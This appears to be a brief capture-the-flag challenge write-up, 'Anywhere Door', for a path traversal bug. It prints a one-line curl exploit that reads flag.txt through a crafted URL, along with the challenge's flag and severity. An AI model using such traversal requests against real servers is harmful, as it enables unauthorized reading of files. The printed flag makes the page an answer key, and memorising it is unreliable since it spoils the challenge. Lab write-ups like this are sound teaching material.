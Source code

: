 # Anywhere Door

Author: VascoZ

## Description

Pintu Kemana Saja *suara doraemon*

## Requirements

None

## Sources

-

## Tags

- Path Traversal

## Exploit

- curl http://ip:port/flag../flag.txt

## Flag

```
ITDEL{Bugzz_Hunt1ng_101_#!?}
```

## connection



## Severity
Medium
